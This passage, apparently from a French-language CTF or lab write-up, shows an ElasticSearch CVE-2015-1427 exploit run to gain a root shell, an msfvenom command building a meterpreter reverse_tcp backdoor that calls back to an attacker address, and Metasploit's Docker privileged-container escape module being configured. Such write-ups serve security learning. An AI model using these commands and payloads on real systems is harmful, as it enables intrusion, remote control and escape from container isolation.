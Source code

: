 En revanche en testant [un vieil exploit](https://www.exploit-db.com/exploits/36337) en Python on est vite fixé sur ce qu'on peut faire :  

```plain
$ python 36337.py 127.0.0.1

▓█████  ██▓    ▄▄▄        ██████ ▄▄▄█████▓ ██▓ ▄████▄    ██████  ██░ ██ ▓█████  ██▓     ██▓    
▓█   ▀ ▓██▒   ▒████▄    ▒██    ▒ ▓  ██▒ ▓▒▓██▒▒██▀ ▀█  ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒███   ▒██░   ▒██  ▀█▄  ░ ▓██▄   ▒ ▓██░ ▒░▒██▒▒▓█    ▄ ░ ▓██▄   ▒██▀▀██░▒███   ▒██░    ▒██░    
▒▓█  ▄ ▒██░   ░██▄▄▄▄██   ▒   ██▒░ ▓██▓ ░ ░██░▒▓▓▄ ▄██▒  ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▒████▒░██████▒▓█   ▓██▒▒██████▒▒  ▒██▒ ░ ░██░▒ ▓███▀ ░▒██████▒▒░▓█▒░██▓░▒████▒░██████▒░██████▒
░░ ▒░ ░░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░  ▒ ░░   ░▓  ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ░ ░  ░░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░    ░     ▒ ░  ░  ▒   ░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
   ░     ░ ░    ░   ▒   ░  ░  ░    ░       ▒ ░░        ░  ░  ░   ░  ░░ ░   ░     ░ ░     ░ ░   
   ░  ░    ░  ░     ░  ░      ░            ░  ░ ░            ░   ░  ░  ░   ░  ░    ░  ░    ░  ░
                                              ░                                                
 Exploit for ElasticSearch , CVE-2015-1427   Version: 20150309.1
{*} Spawning Shell on target... Do note, its only semi-interactive... Use it to drop a better payload or something
~$ id
uid=0(root) gid=0(root) groups=0(root)
```

R.I.P. ElasticSearch.  

On est root, que espérer de plus ? Un accès en dehors du container bien sûr !  

Ah! Le binaire Docker n'est pas présent sur la machine et j'ai trop la flemme d'installer une Debian 8, installer Docker, noter les librairies requises, uploader ça etc...  

On va quitter notre *ReverseSSH* et profiter des fonctionnalités de Metasploit.  

D'abord générer la backdoor :  

```plain
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.4 LPORT=4444 -f elf -o /tmp/rev_met
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: /tmp/rev_met
```

Qu'on uploade et exécute sur la victime. Il faut avoir préalablement lancé le handler dans Metasploit, étape que j'ai oublié de copier ici mais qui peut se voir par exemple dans [le CTF Bobby](http://devloop.users.sourceforge.net/index.php?article74/solution-du-ctf-bobby-1).  

Une fois la session Metasploit récupérée on la met en fond avec la commande *bg* (ou *background*) et on va chercher le module d'escalade de privilège adapté et lui fournir les options nécessaires (l'ID de la session, le payload, etc) :  

```plain
msf6 exploit(linux/local/docker_privileged_container_escape) > show options

Module options (exploit/linux/local/docker_privileged_container_escape):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.4     yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port

```